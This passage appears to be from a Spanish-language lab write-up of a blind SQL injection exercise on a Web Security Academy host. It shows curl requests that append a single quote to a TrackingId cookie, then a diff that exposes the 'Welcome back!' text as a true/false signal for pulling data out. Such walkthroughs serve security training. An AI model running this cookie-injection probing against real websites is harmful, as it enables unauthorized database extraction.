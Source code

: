 > Vemos que ha cambiado el tamaño de la respuesta, esto significa que existe alguna variante al corromper la query.

```bash
❯ curl -X GET https://0a7a00f703ea90ba827b8836007f004c.web-security-academy.net/ --cookie "TrackingId=TvXMzKlqgSfVoLVu" -o request1
```

```ruby
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 11442  100 11442    0     0  46063      0 --:--:-- --:--:-- --:--:-- 46137
```

```bash
❯ curl -X GET https://0a7a00f703ea90ba827b8836007f004c.web-security-academy.net/ --cookie "TrackingId=TvXMzKlqgSfVoLVu'" -o request2
```

```ruby
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 11381  100 11381    0     0  44516      0 --:--:-- --:--:-- --:--:-- 44631
```

```bash
❯ diff request1 request2
```

```ruby
41d40
<                             <div>Welcome back!</div><p>|</p>
                                                              
```

> Vemos que la palabra que se añade cuando la query es válida es 'Welcome back!', gracias a esto podemos extraer información.
